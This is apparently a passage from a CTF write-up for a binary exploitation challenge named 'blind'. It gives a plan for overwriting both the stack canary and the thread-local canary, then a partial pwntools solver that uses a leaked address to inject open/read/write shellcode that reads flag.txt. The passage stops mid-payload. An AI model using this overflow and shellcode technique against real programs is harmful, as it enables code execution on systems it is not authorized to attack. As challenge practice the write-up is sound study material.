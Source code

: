 now the plan is set

#### Plan

1. we set big input size : `0x1000` for example
2. write our payload which looks like this : `shellcode + p64(canary=0) + p64(rbp=JUNK) +p64(ret_adress= &shellcode) + padding_to_fs + p8(0)*0x28 + p64(canary=0)`
3. theoretically , the above 2 steps are enough , but the `read()` function uses the value at fs:0x10 for some example so we cant just overwrite it with 0 , we need to overwrite with its old value . And since the thread memory is all contiguous (in virtual at least xD) , and we have the leak , we can get its old value .

#### solver

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        b* 0x0000000000401432
                        b* 0x00000000004014c9
                        c
                        x/20gx $rsp
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./blind_patched")
libc=ELF("./libc.so.6")
nc="nc 9ccd3876682d4ea8fcad09429d5797a5.chal.ctf.ae 443"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host, 443, ssl=True, sni=host)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############

p.recvuntil("Buffer: ")
leak=int(p.recvline().strip(),16)
fs_base=leak-0x20+0x8a0
size=-0x20+0x8a0
log.info(hex(leak))
code=shellcraft.amd64.linux.open("./flag.txt",0)
code+=shellcraft.amd64.linux.read('rax',leak+0x500,0x50)
code+=shellcraft.amd64.linux.write(2,leak+0x500,0x50)


shellcode=asm(code)

payload=shellcode.ljust(0x80-8,b"a")
payload+=p64(0)*2
payload+=p64(leak)
payload=payload.ljust(size,b"\x00")
payload+=p64(fs_base) #0
payload+=p64(0x0000000000b7a2b0) #8
```